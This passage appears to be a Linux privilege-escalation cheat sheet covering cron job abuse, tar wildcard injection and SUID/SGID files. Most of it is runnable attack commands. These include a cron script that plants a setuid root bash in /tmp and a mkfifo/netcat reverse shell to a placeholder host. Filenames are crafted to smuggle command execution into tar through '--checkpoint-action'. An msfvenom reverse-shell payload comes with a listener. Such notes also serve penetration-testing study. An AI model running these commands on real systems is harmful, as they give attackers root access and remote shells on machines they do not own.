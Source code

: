 #### Get content of the system wide contrab:
```
cat /etc/crontab
```

#### Create the file <SCRIPTNAME> in the writable directory with the following contents
```
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```
  
#### Ensure it executable
```
chmod +x /home/user/overwrite.sh
```

#### Run /tmp/rootbash
```
/tmp/rootbash -p
```

### Wildcards
When a wildcard character (\*) is provided to a command as part of an argument, the shell will first perform filename expansion (also known as globbing) on the wildcard. This process replaces the wildcard with a space-separated list of the file and directory names in the current directory. An easy way to see this in action is to run the following command from your home directory: ```echo *```

Exploiting wildcard for privilege escalation (For example tar * in this directory) https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/

#### Example2
```
echo "mkfifo /tmp/lhennp; nc <IP> <PORT> 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

#### Example1
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o shell.elf
chmod +x shell.elf
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
nc -nvlp <PORT>
```

### SUID / SGID
- SUID files get executed with the privileges of the file owner.
- SGID files get executed with the privileges of the file group.
If the file is owned by root, it gets executed with root privileges, and we may be able to use it to escalate privileges.
